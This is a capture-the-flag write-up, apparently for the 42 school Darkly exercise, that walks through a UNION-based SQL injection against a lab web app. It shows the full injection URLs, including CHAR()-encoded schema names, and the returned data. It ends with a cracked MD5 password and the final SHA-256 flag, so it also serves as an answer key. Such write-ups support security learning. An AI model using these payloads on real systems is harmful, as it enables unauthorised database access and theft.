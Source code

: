 # Sql injection images

SQL injection usually occurs when you ask a user for input, like their username/userid, 
and instead of a name/id, the user gives you an SQL statement that you will unknowingly 
run on your database.

## Notes

veamos 1 o 1 = 1

```bash
http://192.168.1.34/index.php?page=member&id=-1%20union%20select%20column_name,0%20from%20information_schema.columns%20where%20table_schema=CONCAT(CHAR(77),%20CHAR(101),%20CHAR(109),%20CHAR(98),%20CHAR(101),%20CHAR(114),%20CHAR(95),%20CHAR(105),%20CHAR(109),%20CHAR(97),%20CHAR(103),%20CHAR(101),%20CHAR(115))&Submit=Submit
```

ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115)) 
First name: id
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115)) 
First name: url
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115)) 
First name: title
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115)) 
First name: comment
Surname : 0

-------------------------------------

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115))
&Submit=Submit#
```

ID: -1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(105), CHAR(109), CHAR(97), CHAR(103), CHAR(101), CHAR(115)) 
First name: 
Surname : list_images

-------------------------------------

```bash
http://192.168.1.34/
index.php
?page=member
&id=-1 union select url, comment from Member_images.list_images
&Submit=Submit
```

ID: -1 union select url, comment from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

md5 > 1928e8083cf461a51303633093573c46 = albatroz
sha256 > albatroz = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

-------------------------------------

1 or 1=1 UNION select url, comment from list_images

## Info

[md5](https://md5.gromweb.com/?string=42)<br/>
[sha256](https://md5decrypt.net/en/Sha256/#answer)<br/>
